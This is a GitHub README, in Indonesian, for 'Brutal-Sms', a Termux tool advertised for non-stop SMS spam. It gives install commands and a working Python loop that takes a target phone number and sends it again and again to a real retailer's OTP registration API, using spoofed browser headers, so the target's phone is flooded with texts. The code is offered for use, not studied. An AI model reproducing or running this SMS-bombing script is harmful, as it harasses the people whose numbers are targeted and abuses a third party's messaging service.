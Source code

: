 ## Brutal-Sms
Perfect Tools spam 24 jam non stop

<details open>
  <summary><strong> Install Package + Run Script </strong></summary>

  ```bash
  pkg update && pkg upgrade
  pkg install nano
  pkg install git
  pkg install python
  git clone https://github.com/RFauzi/Brutal-Sms
  bash install.sh
  cd Brutal-Sms
  python run.py
  ```
  </details>

<details open>
  <summary><strong> 24 jam non stop tutorial </strong></summary>

  ```bash
  Example:
  abc=input("Nomor Target:")
  while True:
        print (abc)
        # Tambah time.sleep(5) (Jika Ingin Delay)
  ```
  </details>
#### KELEBIHAN 📍
| Kelebihan | Check |
|--------|--------|
| **24 Jam non stop** |[✔️](https://github.com/RFauzi) |
| **Brutal Spam** |[✔️](https://github.com/RFauzi) |
| **Simple** |[✔️](https://github.com/RFauzi) |
| **No Encrypt** |[✔️](https://github.com/RFauzi) |
---------
<details open>
  <summary><strong> 24 jam non stop example </strong></summary>
  ```bash
  nomor=input("Nomor Target:")
  while True:
        requests.post("https://beryllium.mapclub.com/api/member/registration/sms/otp",headers={"Host":"beryllium.mapclub.com","content-type":"application/json","accept-language":"en-US","accept":"application/json, text/plain, */*","user-agent":"Mozilla/5.0 (Linux; Android 10; M2006C3LG) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.101 Mobile Safari/537.36","origin":"https://www.mapclub.com","sec-fetch-site":"same-site","sec-fetch-mode":"cors","sec-fetch-dest":"empty","referer":"https://www.mapclub.com/","accept-encoding":"gzip, deflate, br"},data=json.dumps({"account":nomor})).text
        time.sleep(10) # Waktu Delay Bisa Atur Sendiri
  ```
